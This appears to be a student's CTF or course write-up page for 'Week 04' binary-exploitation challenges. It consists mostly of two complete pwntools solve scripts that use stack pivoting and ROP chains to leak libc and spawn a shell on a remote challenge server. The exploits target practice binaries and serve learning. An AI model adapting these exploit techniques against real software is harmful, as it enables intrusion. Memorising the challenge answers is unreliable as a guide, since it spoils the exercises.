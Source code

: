 +++
title = "Week 04"
weight = 3
slug="week-04"
description = "- pivot: stack pivoting, the address of user input is leaked and leave;ret instructions are used to get to ropchain<br>- relative: stack pivoting by using add rsp instructions"
+++

This was the first week where things were pretty difficult for me. I will add writeups to these ones for sure, still barely understand how I did these.

# pivot
Stack pivoting, the address of your input is leaked, and you can use leave; ret to jump to it. From there it's a ret2libc.

Solve script:
``` py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./pivot_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r)
    else:
        r = remote("128.199.12.141", 7011)

    return r


def main():
    r = conn()

    # good luck pwning :)

    rbp_val = p64(0x3ff000)
    rdi_ret = p64(0x4012bb)
    leave_ret = p64(0x401183)
    puts_got = p64(exe.got['puts'])
    puts_plt = p64(exe.plt['puts'])
    query = p64(exe.sym['query'])

    payload = rbp_val + rdi_ret + puts_got + puts_plt + query
    
    print(r.recvline())
    # sending the payload to the first query()
    r.sendline(payload)
    name = r.recvline().strip().split()[-1]
    name = p64(int(name, 16))
    print('name:', name)
    # send to first vuln()
    r.send(b'B'*8 + name + leave_ret)

    leak = r.recvline()
    base = u64(leak.rstrip().ljust(8, b'\x00')) - libc.symbols['puts']

    onegadget = p64(base + 0x4484f)
    zero_rax = p64(base + 0x980f5)

    print(r.recvline())
    r.sendline(b'C'*7 + zero_rax + onegadget)   # idk why but there was a weird null byte in this one that meant I only have to send 7 bytes of buffer. 
                                                # Spent ages trying to figure out why my payload was offset by 1 byte but couldn't figure it out, still have no idea
    name2 = r.recvline().strip().split()[-1]
    name2 = p64(int(name2, 16))
    print('name2:', name2)

    r.send(b'D'*8 + name2 + leave_ret)

    r.interactive()


if __name__ == "__main__":
    main()
```

# relative
Stack pivoting by using add rsp instructions. The add rsp, 8 instruction conveniently makes it so it returns directly onto our input.

Solve script:
``` py
#!/usr/bin/env python3

from pwn import *

exe = ELF("./relative_patched")
libc = ELF("./libc.so.6")
ld = ELF("./ld-linux-x86-64.so.2")

context.binary = exe

def conn():
    if args.LOCAL:
        r = process([exe.path])
        gdb.attach(r)
    else:
        r = remote("128.199.12.141", 7012)

    return r

def main():
    r = conn()

    # good luck pwning :)
    BUFSIZE = 40
    rdi_ret = p64(0x40125b)
    puts_plt = p64(exe.plt['puts'])
    puts_got = p64(exe.got['puts'])
    main = p64(0x4011af)
    add_rsp_8 = p64(0x401012)[:-1]

    # only 7 bytes remaining, msb must be 0x00. Not much of an issue b/c all addresses can be specified in 7 bytes    

    payload = rdi_ret + puts_got + puts_plt + main
    payload += b'A'*(BUFSIZE-len(payload))

    r.recvline()
    r.send(payload + add_rsp_8)

    leak = r.recvline()
    base = u64(leak.rstrip().ljust(8, b'\x00')) - libc.symbols['puts']

    onegadget = p64(base+0x4484f)
    zero_rax = p64(base+0x0980f5)

    payload2 = b'B'*24 + zero_rax + onegadget

    r.sendline(payload2)

    r.interactive()


if __name__ == "__main__":
    main()
```

